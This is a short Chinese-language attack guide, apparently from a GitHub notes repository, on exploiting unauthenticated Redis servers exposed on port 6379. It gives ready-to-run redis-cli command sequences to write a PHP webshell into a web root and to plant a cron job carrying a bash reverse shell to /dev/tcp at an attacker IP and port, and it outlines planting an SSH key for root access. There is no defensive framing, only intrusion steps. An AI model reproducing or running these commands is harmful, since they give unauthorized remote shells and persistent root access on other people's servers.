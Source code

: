 # redis 未授权

**通过远程6379端口未授权连接到redis数据库**

## 大致方式

```
1、直接写入webshell
	a、redis对网站根目录有写入权限
	b、需要知道网站的根目录(也可以猜测)
2、通过写入计划任务，反弹shell
	需要对/etc/crontab 计划任务文件有修改权限
3、通过"公私钥"认证获取root权限(这样可以不用知道root密码)
	当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器。
```

### 前提

```
1、redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；(高版本默认有保护模式,不让远程登录)
2、没有设置密码认证，可以免密码远程登录redis服务。 
```

### 1、直接写入webshell

**条件**

```
1、redis对网站根目录有写入权限
2、需要知道网站的根目录(也可以猜测)
```

```
set x "<?php phpinfo();?>"  设置变量
config set dir C:/phpStudy/WWW/ 设置写入目录
config set dbfilename redis.php 设置写入文件命令
save 写入
redis-cli.exe -h 192.168.1.169 -p 6379
```

![image-20201210155936007](image/image-20201210155936007.png)

![image-20201210160053978](image/image-20201210160053978.png)

### 2、redis通过写入计划任务，反弹shell

**cat /etc/crontab**

**redis 关闭保护模式**

```
./redis-cli -h 127.0.0.1 -p 6379 高版本默认会有保护模式
远程连接
redis-cli.exe -h 192.168.1.169 -p 6379

set shell "\n\n*/1 * * * * bash -i>&/dev/tcp/192.168.1.41/10875 0>&1\n\n"

config set dir /etc/

config set dbfilename crontab

save
```

### 3、通过"公私钥"认证获取root权限

```
当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器。
```



